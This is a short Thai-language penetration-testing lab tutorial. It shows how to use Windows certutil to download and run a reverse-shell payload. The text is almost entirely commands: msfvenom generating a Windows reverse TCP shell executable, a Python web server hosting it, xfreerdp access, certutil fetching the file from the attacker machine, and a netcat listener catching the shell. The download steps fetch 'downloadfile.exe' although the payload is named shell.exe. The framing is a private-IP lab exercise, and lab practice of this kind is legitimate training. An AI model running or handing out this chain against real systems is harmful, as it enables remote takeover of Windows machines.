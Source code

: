 # Windows Download shell via certutil tools 

บน Windows เราสามารถใช้คำสั่ง certutil เพื่อดาวโหลดไฟล์ได้ ซึ่งจะคล้ายกับการใช้งาน Wget บน Linux นั่นเอง 

```powershell
certutil.exe -urlcache -f http://10.10.10.2/downloadfile.exe
# OR
certutil.exe -urlcache -f -split http://10.10.10.2/downloadfile.exe
```
จากตัวอย่างด้านบนเราสามารถทดสอบการโจมตีบน Windows ได้ดังต่อไปนี้
กำหนดให้ Windows มีหมายเลข IP เป็น 10.10.10.1 และ Kali Linux เป็น 10.10.10.2 

Step 1: สร้าง Payload ในรูปแบบไฟล์ .exe ด้วย msfvenom

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.2 LPORT=4444 -f exe > shell.exe
```

Step 2: เปิดให้ Download file ด้วยคำสั่ง Python
```python
python -m http.server 80
```

Step 3: ไปยัง Remote ไปยัง Windows ด้วยคำสั่ง xfreerdp
```sh 
xfreerdp /u:user /p:pass /cert:ignore /v:10.10.10.1
```

Step 4: ทำการ Dwonload ไฟล์ shell.exe บน Windows 
```powershell
certutil.exe -urlcache -f http://10.10.10.2/downloadfile.exe
# OR
certutil.exe -urlcache -f -split http://10.10.10.2/downloadfile.exe
```

Step 5: เปิด Connection ด้วย Netcat บน Kali เพื่อรอ Reverse shell 
```sh 
nc -lvnp 4444 
```

Step 6: Run shell.exe บน Windows 
```powershell
./shell.exe
```

Have FUN for LAB